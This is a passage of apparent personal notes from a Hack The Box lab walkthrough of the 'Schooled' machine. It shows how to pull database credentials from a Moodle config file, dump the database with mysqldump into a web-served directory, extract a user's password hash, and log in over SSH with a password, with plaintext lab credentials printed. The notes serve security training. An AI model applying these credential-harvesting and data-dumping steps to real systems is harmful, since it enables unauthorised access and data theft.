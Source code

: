 ## DB Creds
Do some poking around in the moodle directory and find a config file with some db creds
```bash
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
```
## sqldump
- Looking in /usr/local/bin, find some usable sql binaries
- The regular *mysql* binary never returns, so just try dumping the database with mysqldump and our creds

```bash
./mysqldump -u moodle -p moodle > /usr/local/www/apache24/data/schooled.htb/mysql.out
```
- set the output to the *schooled.htb* webserver for easy access
- find some creds, the most interesting of which is the jamie user

```sql
(2,'manual',1,0,0,0,1,'admin','$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW','','Jamie','Borham','jamie@staff.schooled.htb',0,'','','','','','','','','','','Bournemouth','GB','en','gregorian','','99',1608320129,1608729680,1608681411,1608729680,'192.168.1.14','',0,'','',1,1,0,0,1,0,0,1608389236,0,'','','','','',''),
```
- trying to decrypt, but it's a bcrypt hash so not holding my breath
- Note: we only dumped the moodle database because it's the only one we know we can see, and know exists
- the entire mysql.out is stored @ /home/hunter/htb/schooled/mysql.out
- If this doesn't work, look into some mysql oneliners for mor sql enumeration

```bash
hunter@kali ~/htb/schooled$ ssh jamie@10.10.10.234
Password for jamie@Schooled:!QAZ2wsx
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace en with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
Before deleting a dataset or snapshot, perform a dry run using the -n
parameter. This is to make sure you really want to delete just that
dataset/snapshot and not any dependent ones. ZFS will display the resulting
action when -n is combined with the -v option without actually performing
it:

zfs destroy -nrv mypool@mysnap

Once you are sure this is exactly what you intend to do, remove the -n
parameter to execute the destroy operation.
                -- Benedict Reuschling <bcr@FreeBSD.org>
jamie@Schooled:~ $ 
```
- Well sometimes you just get lucky I guess 
- 